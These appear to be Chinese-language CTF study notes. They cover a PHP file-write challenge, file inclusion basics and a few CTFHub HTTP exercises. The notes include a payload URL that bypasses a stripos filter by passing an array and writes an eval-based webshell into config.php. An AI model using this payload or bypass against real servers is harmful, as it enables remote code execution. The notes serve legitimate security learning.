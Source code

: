 ```php
<?php
if(isset($_GET['content'])){
  $filename = 'config.php';
  $content = $_GET['content'];

  if(is_int(stripos($content, 'php')) || is_int(stripos($content, '<'))) {
    echo 'Invalid input';
  } else {
    file_put_contents($filename, $content);
    echo 'Success';
  }
}
```

其中判定条件为不区分大小写的函数stripos()

只有他俩都返回错误才能绕过，故可以传数组让函数本身报错

而且需要在网页get中改动

```php
index.php?content[]=<?php+eval($_GET[a]);
```

![image-20230904165158558](C:\Users\李佳艺\AppData\Roaming\Typora\typora-user-images\image-20230904165158558.png)

## 13题 (oj)BasicFileInclude：

文件包含漏洞：

没有对变量进行严格校验或者校验被绕过。

文件包含函数

include/include_once/require/require_once

本地文件包含；远程文件包含

文件包含漏洞的利用方式：伪协议

file是本地文件访问，既可以利用文件包含漏洞也可以执行SSRF攻击。

![image-20230904193755017](C:\Users\李佳艺\AppData\Roaming\Typora\typora-user-images\image-20230904193755017.png)

本题得出

![image-20230904194157008](C:\Users\李佳艺\AppData\Roaming\Typora\typora-user-images\image-20230904194157008.png)

## CTFHUB：

### 01 请求方式HTTP-methed 

抓包后将左上角GET方式改成题目要求的CTFHUB

### 02 HTTP临时重定向 


[编码网址]: https://coding.tools/cn